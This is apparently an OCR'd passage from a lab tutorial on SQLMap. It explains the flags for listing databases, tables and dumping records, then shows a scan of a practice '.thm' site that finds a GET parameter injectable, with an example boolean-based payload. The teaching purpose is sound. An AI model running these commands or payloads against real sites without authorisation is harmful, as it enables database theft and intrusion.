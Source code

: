 [*] starting at 08:42:50

[08:42:50] [INFO] starting wizard interface
Please enter full target URL (-u): 

        

The --dbs flag helps you to extract all the database names. Once you get to know the database names, you can extract information about the tables of that database by using -D database_name --tables. After obtaining the tables, if you want to enumerate the records in those tables, you can use -D database_name -T table_name --dump. The different flags in the SQLMap tool let you extract detailed information from the databases. Now, let's take a practical scenario and use all the above flags to exploit a web application vulnerable to SQL injection.

The first step is to look for a possible vulnerable URL or request. You may often come across some URLs that use GET parameters to retrieve the data. For example, a URL like http://sqlmaptesting.thm/search?cat=1 uses a parameter cat that takes the value 1. If you see any web application using GET parameters in the URLs to retrieve data, you can test that URL with the -u flag in the SQLMap tool. This is considered to be HTTP GET-based testing. This approach is followed when the application uses GET parameters in the URL to retrieve data from the searches.

We will use a supposedly vulnerable website URL: http://sqlmaptesting.thm for the demonstration. Suppose that this website has a search option, and when you click on this search option and search for something, the URL becomes http://sqlmaptesting.thm/search/cat=1, which uses the GET parameter cat=1 in the URL to extract information from the database. As we know, URLs that have GET parameters can be vulnerable to SQL injection; let us scan this URL to identify if it has any SQL injection vulnerability.
Testing URL for SQL injection

           
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
